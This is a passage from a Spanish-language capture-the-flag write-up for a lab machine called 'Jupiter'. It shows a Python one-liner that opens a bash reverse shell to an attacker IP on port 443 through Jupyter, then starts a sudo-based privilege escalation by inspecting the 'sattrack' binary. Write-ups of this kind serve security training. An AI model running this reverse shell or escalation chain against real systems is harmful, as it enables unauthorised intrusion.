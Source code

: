 Jupyter al estar trabajando un Python, entonces nos mandaremos un reverse shell usando el modulo ```os```:

```py
import os; os.system('bash -c "bash -i >& /dev/tcp/<tu_ip>/443 0>&1"')
```

Una vez que lo ejecutemos ya seremos Jovian

![](/assets/img/jupiter/6.png)

## Jovian a Root

Si buscamos por binarios que podamos ejectuar como root sin contraseña con ```sudo -l```, podemos ver uno que se llama ```sattrack```

```
User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

Si lo tratamos de ejecutar nos dira que un archivo de configuracion no se encuentra:

```
/usr/local/bin/sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
```

Si vemos el tipo de archivo que es sattrack nos dira que es un binario ELF:

```
/usr/local/bin/sattrack: ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c68bedeeb5dd99903454a774db56a7a533ce7ff4, for GNU/Linux 3.2.0, not stripped
```

Me pase el archivo a mi maquina, y usando rabin2, mostrare los string buscando por archivos de configuracion:

```
rabin2 -z sattrack | grep -i config
```
```
491 0x0007bd48 0x0007bd48 16   17   .rodata ascii   /tmp/config.json
```
